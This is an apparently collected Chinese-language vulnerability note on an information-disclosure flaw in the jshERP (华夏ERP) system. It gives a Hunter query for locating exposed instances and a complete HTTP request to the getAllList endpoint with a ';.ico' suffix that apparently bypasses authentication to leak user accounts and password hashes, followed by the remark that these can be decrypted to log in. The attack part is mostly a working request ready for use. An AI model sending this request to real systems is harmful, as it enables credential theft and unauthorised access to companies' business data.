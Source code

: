 # 华夏ERP getAllList存在信息泄露漏洞

# 一、漏洞简介
jshERP立志为中小企业提供开源好用的ERP软件，降低企业的信息化成本，目前专注进销存+财务功能。主要模块有零售管理、入库管理、出库管理、组装拆卸、财务管理、报表查询、基础数据、系统管理等。支持预付款、收入支出、仓库调拨、采购销售、礼品卡等特色功能。拥有库存状况、出入库统计等报表。同时对角色和权限进行了细致全面，精确到每个按钮和菜单。该系统存在敏感信息泄露漏洞，通过此漏洞攻击者可以获取系统用户，登录用户名，密码，职位等个人敏感信息。

# 二、影响版本
+ jshERP

# 三、资产测绘
+ Hunter`web.body="jshERP"`
+ 特征

![1704276326167-84de47c7-5c90-4441-9814-5a3cbf02f2f6.png](./img/taahvRvbAHDcrLXX/1704276326167-84de47c7-5c90-4441-9814-5a3cbf02f2f6-359942.png)

# 四、漏洞复现
```plain
GET /jshERP-boot/user/getAllList;.ico HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1704276087; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1704276315
Upgrade-Insecure-Requests: 1
```

![1704276423442-010d25cc-0516-4888-985c-fc04aa5c1904.png](./img/taahvRvbAHDcrLXX/1704276423442-010d25cc-0516-4888-985c-fc04aa5c1904-335255.png)

解密即可登录

![1704276460771-27d3c0fa-c153-490e-8592-0e2c6390e581.png](./img/taahvRvbAHDcrLXX/1704276460771-27d3c0fa-c153-490e-8592-0e2c6390e581-927135.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/grwzu7s9grkulo1a>